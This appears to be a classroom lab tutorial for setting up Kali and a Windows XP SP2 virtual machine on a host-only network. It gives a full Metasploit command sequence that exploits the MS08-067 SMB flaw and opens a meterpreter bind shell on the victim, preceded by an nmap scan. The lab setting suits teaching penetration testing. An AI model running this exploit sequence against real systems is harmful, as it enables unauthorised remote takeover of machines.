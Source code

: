 Boot / Install Kali

Install Windows XP service pack 2 on a virtualbox image, and boot it.

On both the Windows VM and the Kali VM (if using Kali in a VM) click Network Settings
![](http://teachthe.net/topclipbox/2016-05-04_10-13-217I0PL4.png)

Select Host-only Adapter and hit OK.
![](http://teachthe.net/topclipbox/2016-05-04_10-45-50YUEAFM.png)

Note - if you get an "invalid setting" error, you need to go to VirtualBox -> Preferences -> Network -> Host-only Networks -> Add a new one there.

In Kali, run nmap:
```
nmap -sV 192.168.0-254.0-254
```

From this, find the victim IP address and insert it in the commands below in place of "192.168.0.103"

```shell
$ msfconsole
> use windows/smb/ms08_067_netapi
> show targets
> set target 0
> show options
> set RHOST 192.168.0.103
> show payloads
> set PAYLOAD windows/meterpreter/bind_tcp
> exploit
```


Troubleshooting
- It may fail if the windows firewall is turned on
- Sometimes after one failed attempt (due to bad target) the victim's service dies and has to be rebooted before another attempt is made.